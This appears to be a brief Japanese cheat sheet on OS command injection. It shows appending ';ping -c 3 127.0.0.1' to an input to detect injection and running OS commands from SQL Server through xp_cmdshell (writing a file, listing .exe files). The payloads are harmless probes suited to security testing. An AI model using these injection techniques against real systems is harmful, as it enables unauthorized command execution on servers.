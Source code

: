 # OSCommandInjection

1. 入力値のあとに`;ping -c 3 127.0.0.1`を入力して検証
2. SQLでOSコマンドを実行
   * SQL Server 限定
   * カレントディレクトリはcmd.exeがあるディレクトリ

   ``` SQL
    exec xp_cmdshell 'echo file output test > test.txt'
    --　戻り値が欲しいとき
    exec @result = master..xp_cmdshell 'dir *.exe'
   ```
